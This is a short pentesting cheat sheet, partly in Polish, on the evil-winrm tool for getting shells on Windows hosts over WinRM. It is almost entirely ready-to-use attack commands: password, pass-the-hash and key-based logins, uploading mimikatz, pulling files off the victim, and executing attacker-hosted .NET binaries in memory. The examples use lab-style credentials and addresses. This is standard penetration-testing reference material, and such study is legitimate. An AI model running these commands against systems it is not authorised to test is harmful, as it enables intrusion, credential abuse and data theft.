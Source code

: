 # Windows Remote Management shell for pentesting.
Wykorzystuje WinRM do utworzenia shella

```powershell
evil-winrm -i <target-ip> -u username -p password

# -P: Specifify port
evil-winrm -i <target-ip> -P 5986 -u username -p password

# Pass The Hash (-H)
evil-winrm -i <target-ip> -P 5986 -u username -H 0e0363213e37b94221497260b0bcb4fc

# PowerShell Local Path (-s)
evil-winrm -i <target-ip> -u username -p password -s /opt/scripts

# SSL enabled (-S)
evil-winrm -i <target-ip> -u username -p password -S
```
If you have private key and public key, you can use them for authentication.

```sh
# -S: SSL
# -k: private key
# -c: public key
evil-winrm -i <target-ip> -S -k private.key -c public.key
```

https://exploit-notes.hdks.org/exploit/windows/protocol/winrm-pentesting/

|                 |                                         |
| --------------- | --------------------------------------- |
| `-i <IP>`       | IP hosta                                |
| `-P <port>`     | port (można pominąć, wybierze domyślny) |
| `-u ... -p ...` | login i hasło użytkownika               |

# Pass-the-hash
```bash
# Pass The Hash (-H)
evil-winrm -i <target-ip> -P 5986 -u username -H 0e0363213e37b94221497260b0bcb4fc
```

# File transfer
```powershell
$ evil-winrm -u username -p 'passwd' -i host
(*evil-winrm*) PS> upload /opt/Windows/exploits/executables/mimikatz.exe C:\temp\mimikatz.exe
(*evil-winrm*) PS> download C:\temp\supersecret.txt /opt/Juggernaut/JUGG-Backup/supersecret.txt
```

# Executing Files and Scripts Directly from Attacker (NO TRANSFER NEEDED)
https://juggernaut-sec.com/windows-file-transfers-for-hackers/#Downloading_Files_onto_the_Victim_Using_evil-winrm

To execute binaries from our attacker machine we need to use evil-winrm’s custom built-in **Invoke-Binary** function.

```powershell
$ evil-winrm -u backup_svc -p 'Makemoney1!' -i 172.16.1.10 -e /usr/share/windows-resources -s /usr/share/windows-resources
$ bash>evil-winrm -u ...
# nawiązanie połączenia z ofiaą za pomocą evil-winrm
PS> menu
PS> Invoke-Binary /usr/share/windows-resources
```
* Not all of these binaries will work with evil-winrm, since it only allows .Net assemblies (executables compiles from C#) to be executed in memory.
* To load PS1 scripts into the evil-winrm session is as simple as just executing any script by name. Since the **-s** switch points to our scripts directory, we can double tab to see all of our PS1 scripts available.
